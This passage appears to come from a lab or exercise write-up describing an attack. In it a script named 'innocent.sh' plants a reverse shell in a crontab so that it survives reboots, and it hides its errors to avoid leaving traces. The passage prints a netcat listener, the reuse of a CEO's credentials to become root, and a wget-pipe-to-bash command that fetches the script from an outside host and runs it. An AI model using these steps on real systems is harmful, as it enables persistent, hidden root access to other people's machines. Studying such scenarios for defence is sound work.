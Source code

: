 * `SAFETYCOM` is the command that spawns the reverse shell;
* this command is both saved in the crontab and executed at the end of the script;
* the errors of the crontab are ignored to avoid leaving any obvious traces;
* cronjob is executed at every reboot of the system, after waiting 200 seconds (for giving the system time to set up propely).
* the cronjob will be executed with the privileges of the user that executes `innocent.sh`

On the attacker machine:

```bash
sudo cp innocent.sh /var/www/html
sudo chmod +r /var/www/html/innocent.sh
nc -lvnp 4444
```

This will allow the victime to download the script via HTTP. With `netcat`  the attacker can listen to connection for the reverse shell.

From the victim terminal (to which the attacker has access to thanks to RDP), the attacker:

* triest to authenticate as `root` with CEO's credentials (they work!)
* loads the script and executes it.

```bash
su root
wget -qO- http://mornincatch.ph/innocent.sh | bash
```

They successfully have a remote shell with `root` privileges that's persistent to reboots!

<img src="images/root.png" alt="Screenshot 2025-06-08 alle 15.40.13 " style="zoom:50%;" />

